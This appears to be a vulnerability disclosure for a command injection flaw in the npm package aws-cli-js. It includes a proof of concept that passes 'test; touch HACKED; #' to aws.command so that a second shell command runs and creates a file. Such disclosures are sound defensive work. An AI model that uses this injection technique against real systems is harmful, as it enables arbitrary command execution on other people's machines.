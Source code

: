 
The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/Quobject/aws-cli-js/blob/master/src/index.ts#L28).

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. Create the following PoC file:
```js
// poc.js
var awsCli = require('aws-cli-js');
var Options = awsCli.Options;
var Aws = awsCli.Aws;

var options = new Options('your key', 'your key2', 'your token', null);

var aws = new Aws(options);
aws.command('test; touch HACKED; #');

```
2. Check there aren't any files called `HACKED`.
3. Execute the following commands in another terminal:

```bash
npm i aws-cli-js # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created.

## References
- [GitHub Issue](https://github.com/Quobject/aws-cli-js/issues/7)
